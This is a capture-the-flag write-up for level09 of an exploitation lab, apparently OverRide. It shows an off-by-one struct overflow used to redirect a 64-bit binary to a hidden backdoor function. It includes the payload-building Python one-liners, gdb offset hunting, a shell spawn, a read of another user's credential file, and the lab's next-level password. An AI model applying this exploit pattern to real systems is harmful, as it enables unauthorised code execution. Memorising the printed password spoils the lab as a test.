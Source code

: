 Level09 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

Level09 rights:
```Shell
level09@OverRide:~$ ls -la level09 
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

Testing the binary:
```Shell
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: lrandria
>: Welcome, lrandria
>: Msg @Unix-Dude
>>: hola mi amor
>: Msg sent!
```
The program takes a username and a message. Let's see if we can exploit the way it stores our input.

Decompiling with Hex-Rays on https://dogbolt.org/ shows us that:
- there is an unused function `secret_backdoor()` that could open a shell
- a `user` struct probably exists because the program uses the [address of the buffer] to store a `string` (message), [address of the buffer + 140] to store another `string` (username) and [address of the buffer + 180] to store an `int` (size message):
```
    char    message[140];
    char    name[40];
    int     size;
```
- an overflow is possible because `name` is only 40-bytes long, but there is an off-by-one byte error when copying user input into it.

Since we're dealing with a struct, this extra 1-byte from `name` will allow us to modify the value of `size`. It is the third argument of `strncpy()` when copying user input into `message`, which is only 140-bytes long. So the goal is to overflow `message` by making `size` big enough. This would allow us to reach `EIP` (located somewhere after the struct) with the address of `secret_backdoor()`.
In a nutshell, we must:
- first modify `size` to a bigger value
- overflow `message` enough to reach `EIP` and find the offset
- insert the address of `secret_backdoor()` at the end of our payload

The first part of our payload will consist of [padding to fill `name`] + [the desired `size` value]. Then we will add some more [padding to go beyond the struct] and finish with `secret_backdoor()`.
The `size` value is pretty straightforward: we want the highest possible which is `\xff` (255 bytes).

Now let's find the offset needed to reach `EIP`. We are sending some padding, the size we want and a buffer overflow pattern:
```Shell
level09@OverRide:~$ python -c 'print("A" * 40 + "\xff\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A")' > /tmp/payload09
```

We get a segfault in `handle_msg()`, so let's inspect the registers:
```Shell
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info registers
[...]
rbp            0x6741356741346741       0x6741356741346741
[...]
```
We realise that `EBP` has been overwritten by our pattern and it gives us an offset of 192. But since it's not `EBP` we're interested in, but rather `EIP`, we have to add 8-bytes to obtain the correct offset: `200`.

Now, let's retrieve the address of `secret_backdoor()`:
```Shell
Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x000055555555488c  secret_backdoor
```

Perfect! We can build our payload with all these elements:
```Shell
level09@OverRide:~$ python -c 'print("A" * 40 + "\xff\n" + "A" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])' > /tmp/payload09
```

And here is the result, after entering `/bin/sh` as the input to `secret_backdoor()`:
```Shell
level09@OverRide:~$ cat /tmp/payload09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh         
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```